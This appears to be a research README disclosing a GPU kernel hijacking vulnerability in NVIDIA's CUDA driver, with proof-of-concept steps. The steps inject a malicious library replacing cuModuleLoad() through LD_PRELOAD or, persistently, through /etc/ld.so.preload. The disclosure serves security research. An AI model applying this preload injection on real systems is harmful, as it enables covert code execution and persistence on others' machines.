 # <center><font size=5> A Kernel Hijacking Vulnerability on NVIDIA GPUs</font></center>

## <font size=5> I. Introduction</font>

We found a kernel hijacking vulnerability on NVIDIA GPUs. Through manipulating the invocation mechanism of the CUDA driver functions, attackers can craft a disguised CUDA kernel loading API (**cuModuleLoad()**) to hijack the GPU kernel. With this vulnerability, attacks can implant malicious logic into the hijacked kernel, causing malicious code execution. 

## <font size=5> II. Exploitation</font>

We provide a Proof of Concept (POC) to demonstrate this vulnerability. In the POC folder, we provide a GPU-based victim application and an attack tool to hijack the victim's GPU kernel.

**Experimental Setup**

| Operating System |              GPU Model              | CUDA Version |
| :--------------: | :---------------------------------: | :----------: |
|  Ubuntu 2022.04  | NVIDIA GTX1050 (Pascal Arch, SM_61) |     12.2     |

**Reproduction Steps**

(1) Step 1: Run the victim application. We provide an image processing case in /POC/victim_app.

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU1](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/reference.png)

(2) Step 2: Compile the attack tool and generate a disguised CUDA kernel loading API (image_hijack.so)

```
cd /POC/hijack_tool
make
```

(3) Step 3: Manipulate the invocation mechanism of the dynamic link library (DLL), and preload the malicious API to replace the legitimate one (**cuModuleLoad()**)

​	(3.1) Manipulate the DLL preloading environment variable (LD_PRELOAD), or

```
LD_PRELOAD=./image_hijack.so
```

​	(3.2) Manipulate the DLL preloading configuration file (ld.so.preload)

```
cp image_hijack.so /usr/lib
vim /etc/ld.so.preload
/usr/lib/image_hijack.so
```

(4) Step 4: Run the victim application again

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/malicious.png)

# <font size=5> Conclusion </font>

In the end, we provide an animation to present the above attack process.

![GPU3](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/animation.gif)

## Contact

We wrote a paper (A Novel Kernel Hijacking and Trojan Injection Method on Graphics Processing Units) to illustrate this vulnerability. Please contact zhangyang1003@std.uestc.edu.cn for any questions. 

